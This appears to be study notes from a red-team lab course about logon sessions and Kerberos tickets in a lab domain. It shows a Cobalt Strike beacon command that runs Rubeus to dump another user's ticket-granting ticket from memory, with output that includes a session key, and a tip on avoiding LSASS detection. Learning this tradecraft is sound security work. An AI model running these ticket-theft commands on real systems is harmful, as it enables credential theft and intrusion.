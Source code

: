 _<mark style="color:yellow;">**Each user has their own logon session**</mark>_, which is _<mark style="color:yellow;">**represented by a LUID**</mark>_ (Locally Unique Identifier).

In this example, we're operating within the _**LUID**_ of <mark style="color:yellow;">`bfarmer`</mark><mark style="color:yellow;">,</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0x14b5fa`</mark>.

The <mark style="color:yellow;">`WKSN-2$`</mark> machine account has its own session, <mark style="color:yellow;">`0x3e4`</mark>; and <mark style="color:yellow;">`jking`</mark> also has a session, <mark style="color:yellow;">`0x7049f`</mark>.

### Tickets

<mark style="color:yellow;">Tickets for the service name</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`krbtgt`</mark> are known as _<mark style="color:yellow;">**Ticket Granting Tickets**</mark>_ (TGTs) and others are _<mark style="color:yellow;">**Ticket Granting Service Tickets**</mark>_ (TGSs).

* We will be diving more into the differences in the two within the Kerberos section

Rubeus' <mark style="color:yellow;">`dump`</mark> <mark style="color:green;">command can extract these tickets from memory, but since because it uses the WinAPIs, it does not need to open suspicious handles to LSASS</mark>!

{% hint style="warning" %}
If not elevated, we can only pull tickets from our own session.&#x20;
{% endhint %}

Without further command-line arguments, Rubeus will extract all tickets possible, but we can be more specific by utilizing the `/luid` and `/service` parameters.

For example, if we only wanted the _<mark style="color:yellow;">**TGT**</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">for</mark> <mark style="color:yellow;">`jking`</mark>, we can do:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt

Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x7049f
[*] Current LUID    : 0x14b5fa

  UserName                 : jking
  Domain                   : DEV
  LogonId                  : 0x754c2
  UserSID                  : S-1-5-21-569305411-121244042-2357301523-1105
  AuthenticationPackage    : Kerberos
  LogonType                : Batch
  LogonTime                : 10/13/2022 9:36:19 AM
  LogonServer              : DC-2
  LogonServerDNSDomain     : DEV.CYBERBOTIC.IO
  UserPrincipalName        : jking@cyberbotic.io


    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  jking
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  10/13/2022 9:36:20 AM
    EndTime                  :  10/13/2022 7:36:20 PM
    RenewTill                :  10/20/2022 9:36:20 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  EIkrCAL8wx98PVRBOZGDKC6Y0KReSosWtvXyv6rIefI=
    Base64EncodedTicket   :
```
